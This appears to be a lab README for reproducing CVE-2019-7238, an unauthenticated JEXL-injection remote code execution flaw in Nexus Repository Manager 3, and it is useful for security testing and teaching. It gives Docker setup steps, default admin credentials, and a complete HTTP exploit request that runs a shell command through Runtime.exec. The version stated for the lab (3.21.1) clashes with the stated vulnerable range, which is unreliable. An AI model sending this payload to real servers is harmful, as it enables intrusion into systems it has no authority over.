



# Nexus Repository Manager 3 Unauthenticated Remote Code Execution (CVE-2019-7238)

[中文版本(Chinese version)](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.14.0, insufficient access control and JEXL expression injection issue have been discovered in Nexus Repository 3 that allows for an unauthenticated attacker to execute arbitrary code by crafting a malicious request to Nexus Repository.

References:

- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with account `admin:admin123` and finish the initialize wizard.

Then, upload a JAR package through maven-releases:



To exploit this issue, Nexus Repository should have at least one package.

## Exploit

Send following request to execute `touch /tmp/success` command, no authentication needed:

```
POST /service/extdirect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

As you can see, `/tmp/success` is executed:



The principle is that the JEXL expression in the expression position is executed, please refer to the documentation for details.

Use BCEL classloader to archive printable response:


